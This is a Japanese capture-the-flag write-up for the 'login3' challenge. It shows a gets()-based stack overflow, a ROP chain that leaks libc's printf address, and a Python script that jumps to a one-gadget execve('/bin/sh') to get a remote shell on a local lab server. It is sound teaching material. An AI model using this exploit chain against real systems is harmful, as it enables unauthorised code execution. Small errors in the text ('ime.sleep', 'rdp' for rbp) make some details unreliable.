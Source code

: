 # login3
## ソースコード
```c
//  gcc login3.c -o login3 -fno-stack-protector -no-pie -fcf-protection=none
#include <stdio.h>
#include <string.h>
#include <unistd.h>

char *gets(char *s);

void setup()
{
    alarm(60);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main()
{
    char id[0x20] = "";

    setup();

    printf("ID: ");
    gets(id);

    if (strcmp(id, "admin") == 0)
        printf("Login Succeeded\n");
    else
        printf("Invalid ID\n");
}
```
## 問題の概要
パスワードは要求されず、IDとしてadminを入力するとログインできるがflagは出力されない。  
そもそもフラグを読み込んでいないので、どこに処理を飛ばしてもフラグを得ることはできない。  
そこで、/bin/shを実行して、コマンドを実行できるようにしてflagを探す。  


## One-gadget RCE
One-gadget RCE(Remote Code Execution)とは、libcに存在するガジェットで、そこに実行を移すだけで/bin/shが起動するアドレス。  
ここでガジェットとは、後述の、ROP(Return-oriented programming)で使用できる一塊の処理のことを指す。


## ASLRとその回避


## Return-oriented programming
Return-oriented programmingとは、スタックバッファオーバーフローから、関数の呼び出しやret直前のアドレスへのジャンプを重ねて目的の処理を実行する手法。  

## 攻略
login3のmain関数の実行時のスタックの内容は以下の通り。

|アドレス|サイズ|内容|
|:---|:---|:---|
|rdp-0x20|0x20|id|
|rdp|0x08|古いrdpの値|
|rdp+0x8|0x08|main関数からの戻り先のアドレス|  
これを以下のように書き換える。

|アドレス|サイズ|値|内容|
|:---|:---|:---|:---|
|rdp-0x20|0x20|aaaa...|id|
|rdp|0x08|aaaa...|古いrdpの値|
|rdp+0x8|0x08|0x4012d3|pop rdi; ret|
|rdp+0x10|0x08|0x404020|GOT の printf|
|rdp+0x18|0x08|0x401030|PLT の puts|
|rdp+0x20|0x08|0x4011e1|main|  
二回目のスタックバッファオーバーフローではrdp+0x8をOne-gadget RCEのアドレスに書き換える。  

問題サーバーのlibc-2.31.soをダウンロードして、printf関数とOne-gedget RCEのアドレスを調べる。  
その際、OneGadget(https://github.com/david942j/one_gadget)
と呼ばれるツールを使用する。  
```
objdump -T libc-2.31.so | grep ' printf'
bundle exec one_gadget /path/to/libc-2.31.so
```

```
:
0xe6af1 execve("/bin/sh", r15, rdx)
constraints:
[r15] == NULL || r15 == NULL
[rdx] == NULL || rdx == NULL
:
```
上記ガジェットを使用する。
## 攻略
ROPによる攻撃をPython3で実装する。
```python
import socket, time, struct, telnetlib

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 10003))

ime.sleep(1)
print(s.recv(1000))
s.sendall(
    b'a'*0x28 +
    struct.pack('<Q', 0x4012d3) + # pop rdi
    struct.pack('<Q', 0x404020) + # printf
    struct.pack('<Q', 0x401030) + # puts
    struct.pack('<Q', 0x4011e1) + # main
    b'\n')

time.sleep(1)
d = s.recv(1000)
print(d)
printf = struct.unpack('<Q', d.split(b'\n')[1].ljust(8, b'\0'))[0]
print('printf: %x'%printf)

rce = (printf
    - 0x64e10 # printf
    + 0xe6af1) # One-gadget RCE

s.sendall(
    b'a'*0x28 +
    struct.pack('<Q', rce) +
    b'\n')

t = telnetlib.Telnet()
t.sock = s
t.interact()

```

